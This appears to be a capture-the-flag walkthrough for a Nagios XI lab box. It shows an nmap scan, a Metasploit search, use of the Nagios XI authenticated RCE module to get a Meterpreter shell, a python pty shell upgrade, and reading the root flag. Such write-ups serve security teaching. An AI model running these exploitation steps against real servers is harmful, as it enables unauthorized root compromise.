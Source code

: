 *Monitoring*

**RECON**

---
**Ip Search** 
Investigating the IP shows Nagios XI  
![image1](https://user-images.githubusercontent.com/66635295/158923291-f9f3c79d-29cd-4356-abac-a06c8a23c1c8.png)
**Login Page** 
![image4](https://user-images.githubusercontent.com/66635295/158923386-5a962c6b-12a7-4478-8ac3-7a4a7dbbfb76.png)



**Nmap Scan**  
<pre>nmap -sC -sV -A 192.168.54.136 </pre>  
-safe scripts -service version -OS /version detection  
![image3](https://user-images.githubusercontent.com/66635295/158923500-63ccf817-750b-4cc0-b922-5fec2ac9aed3.png)

**Exploit Search**
<pre>msfconsole </pre>   
<pre>search nagios </pre>   
![image7](https://user-images.githubusercontent.com/66635295/158925208-7aaf44af-6018-45f6-9136-02605a2546df.png)

**Service Version**  
Provided Exploits did not work but reavel the service version   
![image6](https://user-images.githubusercontent.com/66635295/158925523-9ec073a8-fad8-47e2-a719-fd456de16bdd.png)  
**Google-Fu**
<pre>Nagios XI Remote Code Execution</pre>
Exploit allows for root access prior to 5.6.6 
![image9](https://user-images.githubusercontent.com/66635295/158937981-c3ba5722-8e10-46b4-b68f-35c2f105e32a.png)  
![image11](https://user-images.githubusercontent.com/66635295/158925803-ec6d2456-8095-4b7c-9e4b-b1cbced68f63.png)

**ENUMURATION**
---
**Exploit**
<pre>use exploit /linux/http/nagios_xi_autheticated_rce</pre>
Reveales it had been moved  
![image8](https://user-images.githubusercontent.com/66635295/158925989-31db1f9c-15ac-4db7-91c5-ec38690de593.png)

**Set Options and Run**  
Provides Meterpreter Shell    
![image5](https://user-images.githubusercontent.com/66635295/158926369-64c23ac5-0917-40e2-949a-1d92f7646f11.png)

**Privilege/Root Escalation**
---
**Switch to TTY Shell**
<pre>shell</pre>  
<pre>python -c ‘import pty;pty.spawn(“/bin/bash”)’</pre>  
![image10](https://user-images.githubusercontent.com/66635295/158926563-d75b3cd4-d4fe-431b-98f2-dc7574b39e2e.png)  
**Root Flag**  
<pre>cd /root</pre>  
![image2](https://user-images.githubusercontent.com/66635295/158926788-e02ea43c-383f-4516-8506-dfced0d5e020.png)

